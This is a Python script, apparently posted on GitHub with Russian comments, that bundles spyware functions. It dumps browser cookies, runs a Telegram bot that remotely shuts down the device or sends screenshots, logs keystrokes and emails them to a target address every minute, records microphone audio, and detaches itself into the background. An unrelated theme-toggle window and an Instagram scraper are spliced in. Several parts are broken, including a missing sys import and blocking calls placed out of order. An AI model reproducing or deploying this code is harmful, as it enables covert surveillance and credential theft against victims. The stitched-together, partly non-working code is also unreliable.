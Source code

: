 # jamshed
import requests
from bs4 import BeautifulSoup
import browser_cookie3
import pyotp
import telebot
import os
import smtplib
import keyboard
import pyaudio
import wave
import tkinter as tk
from threading import Timer
from datetime import datetime


# Получение профиля Instagram
def get_instagram_profile(username):
    url = f"https://www.instagram.com/{username}/"
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    
    # Пример извлечения данных
    profile_name = soup.find("h1").text
    followers = soup.find("meta", property="og:description")['content']
    
    return {
        "profile_name": profile_name,
        "followers": followers
    }

# Загрузка cookies из браузера
def get_browser_cookies():
    cookies = browser_cookie3.load()  # Загрузка cookies из браузера
    for cookie in cookies:
        print(f"Name: {cookie.name}, Value: {cookie.value}, Domain: {cookie.domain}")

# Генерация OTP-кода
def generate_otp():
    totp = pyotp.TOTP("base32secret3232")
    otp_code = totp.now()
    print(f"Generated OTP: {otp_code}")

# Telegram Bot
def start_telegram_bot():
    bot = telebot.TeleBot("YOUR_TELEGRAM_BOT_TOKEN")

    @bot.message_handler(commands=['start'])
    def send_welcome(message):
        bot.reply_to(message, "Hello! I'm your remote control bot.")

    @bot.message_handler(commands=['shutdown'])
    def shutdown(message):
        os.system("shutdown /s /t 1")  # Выключение устройства
        bot.reply_to(message, "Shutting down...")

    @bot.message_handler(commands=['screenshot'])
    def screenshot(message):
        os.system("screencapture screen.png")  # Создание скриншота (для macOS)
        with open("screen.png", "rb") as photo:
            bot.send_photo(message.chat.id, photo)

    bot.polling()

# Логирование клавиш
log = ""

def callback(event):
    global log
    log += event.name

def send_log():
    global log
    if log:
        # Отправка лога по email
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login("your_email@gmail.com", "your_password")
        server.sendmail("your_email@gmail.com", "target_email@gmail.com", log)
        server.quit()
        log = ""
    Timer(60, send_log).start()  # Отправка лога каждые 60 секунд

keyboard.on_release(callback)
Timer(60, send_log).start()
keyboard.wait()

# Запись аудио
def record_audio(filename, duration=5):
    FORMAT = pyaudio.paInt16
    CHANNELS = 1
    RATE = 44100
    CHUNK = 1024

    audio = pyaudio.PyAudio()

    stream = audio.open(format=FORMAT, channels=CHANNELS,
                        rate=RATE, input=True,
                        frames_per_buffer=CHUNK)

    frames = []

    for _ in range(0, int(RATE / CHUNK * duration)):
        data = stream.read(CHUNK)
        frames.append(data)

    stream.stop_stream()
    stream.close()
    audio.terminate()

    with wave.open(filename, 'wb') as wf:
        wf.setnchannels(CHANNELS)
        wf.setsampwidth(audio.get_sample_size(FORMAT))
        wf.setframerate(RATE)
        wf.writeframes(b''.join(frames))

# Тема переключателя для Tkinter
def toggle_theme():
    if root["bg"] == "white":
        root["bg"] = "black"
        label["fg"] = "white"
    else:
        root["bg"] = "white"
        label["fg"] = "black"

root = tk.Tk()
root.title("Theme Toggle")

label = tk.Label(root, text="Hello, World!", bg=root["bg"])
label.pack()

button = tk.Button(root, text="Toggle Theme", command=toggle_theme)
button.pack()

root.mainloop()

# Запуск кода в фоновом режиме
def run_in_background():
    if os.name == "nt":
        # Для Windows
        import win32api
        win32api.FreeConsole()
    else:
        # Для Linux/macOS
        if os.fork():
            sys.exit()

# Пример использования
run_in_background()
